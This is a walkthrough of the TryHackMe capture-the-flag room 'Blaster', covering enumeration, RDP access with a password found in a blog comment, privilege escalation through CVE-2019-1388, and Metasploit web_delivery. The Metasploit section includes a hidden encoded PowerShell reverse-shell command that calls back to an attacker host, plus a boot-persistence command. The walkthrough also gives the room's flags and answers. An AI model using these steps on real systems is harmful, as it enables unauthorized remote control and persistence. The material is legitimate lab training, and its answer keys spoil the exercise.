




# Blaster

A blast from the past!

## [Task 1] Mission Start!

Throughout this room, we'll be looking at alternative modes of exploitation without the use of Metasploit or really exploitation tools in general beyond nmap and dirbuster. To wrap up the room, we'll be pivoting back to these tools for persistence and additional steps we can take. Without further delay, let's deploy our target machine!

This room is a remix of my previous room [Retro](https://tryhackme.com/room/retro) with some complications I added to that room having been removed. For increased difficulty and an exercise in patience, check that room out after this. In addition, this room is the sequel to [Ice](https://tryhackme.com/room/ice). 

\- DarkStar7471

No answer needed

## [Task 2] Activate Forward Scanners and Launch Proton Torpedoes

Now that we've launched our target, let's perform some basic enumeration of the services running on it!

### 2.1 - How many ports are open on our target system?

Let's start with an Nmap scan. The scan reveals two open ports:
* 80 http
* 3389 ms-wbt-server

~~~
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2021-11-21T16:24:11
|_Not valid after:  2022-05-23T16:24:11
|_ssl-date: 2021-11-22T16:44:50+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-11-22T16:44:47+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
~~~

Answer: `2`

### 2.2 - Looks like there's a web server running, what is the title of the page we discover when browsing to it?

The answer is in the Nmap scan resultTHe title of the web service on port 80.

Answer: `IIS Windows Server`

### 2.3 - Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

Let's start enumerating the web service. I ran `dirsearch` on it to find the answer that the question is asking for:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Blaster]
└─$ dirsearch -u http://$IP:80/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 87645

Output File: /home/user/.dirsearch/reports/10.10.26.75/_21-11-22_11-50-13.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-22_11-50-13.log

Target: http://10.10.26.75:80/

[11:50:13] Starting: 
[11:51:36] 301 -  150B  - /retro  ->  http://10.10.26.75/retro/
~~~

Answer: `/retro`

### 2.4 - Navigate to our discovered hidden directory, what potential username do we discover?

Let's head to `/retro` to see if we can find anything useful. When you scroll through the posts, you can see that they're all from a user by the name of `Wade`.

Answer: `wade`

### 2.5 - Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

If you click on "Recent comments > Wade on Ready Player One" on right hand side, We can see an interesting comment which can be a password:

Answer: `parzival`

### 2.6 - Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

Now that we have a username and a possible password, we can try to connect to the machine via RDP (Remote Desktop Protocol). I used `remmina` which is a remote desktop client with the following settings (the password is `parzival`):

Now click on "connect" and wait till it's fully loaded. When the desktop is up, we can see a txt file which contains the user flag:

Answer: `THM{HACK_PLAYER_ONE}`

## [Task 3] Breaching the Control Room

Now that we've gained access to our target system, let's see if we can find a way to escalate. To start, let's scout around the system to see if we can find anything of interest.

### 3.1 - When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

Hint: Sometimes looking at the history in a user's web browser can be very insightful.

There is an executable file on the desktop with the name of `hhupd.exe`. I googled it and found a CVE.

Answer: `CVE-2019-1388`

### 3.2 - Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

After reading the question, I think the file I found is not supposed to be where I found it. But anyway, we have the name.

Answer: `hhupd`

### 3.3 - Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!

Hint: This video may prove valuable in case you're stuck: https://www.youtube.com/watch?v=3BQKpPNlTSo

Follow the instructions in that video and gain an elevated terminal and open cmd.

No answer needed

### 3.4 - Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

Just run `whoami` and the output is the answer:

Answer: `nt authority\system`

### 3.5 - Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

Now we can go ahead and read the root flag in administrator's desktop:

Answer: `THM{COIN_OPERATED_EXPLOITATION}`

## [Task 4] Adoption into the Collective

Now that we've thoroughly compromised our target machine, let's return to our exploitation tools so that we can gain remote shell access and persistence.

### 4.1 - Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

Run `msfconsole` in your terminal and use the specified module:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Blaster]
└─$ msfconsole -q
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) >
~~~

No answer needed.

### 4.2 - First, let's set the target to PSH (PowerShell). Which target number is PSH?

First run `show options` to see the required settings:

~~~
msf6 exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on
                                       the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)

Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Python
~~~

As you can see, we need to set the target to `PSH`. Run `show targets` and you can see the ID of the powershell:

~~~
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   SyncAppvPublishingServer
   6   PSH (Binary)
   7   Linux
   8   Mac OS X
~~~

Answer: `2`

### 4.3 - After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

Let's set the options:

~~~
msf6 exploit(multi/script/web_delivery) > set LHOST tun0
LHOST => 10.9.**.***
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set LPORT 4321
LPORT => 4321
~~~

No answer needed

### 4.4 -  Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

Let's set the payload and run it as a job:

~~~
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started HTTP reverse handler on http://10.9.1.123:4321
[*] Using URL: http://0.0.0.0:8080/HzIONiF3JP
[*] Local IP: http://10.0.2.15:8080/HzIONiF3JP
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQ [REDACTED] DMASgBQACcAKQApADsA
~~~

Now copy this payload.

No answer needed

### 4.5 - Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 

Run the the paylaod in the target machine's cmd and go back to your machine and we can see that a reverse shell has spawned.

No answer needed

### 4.6 - Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup.

Answer: `run persistence -u`

### 4.7 - Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!

No answer needed

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )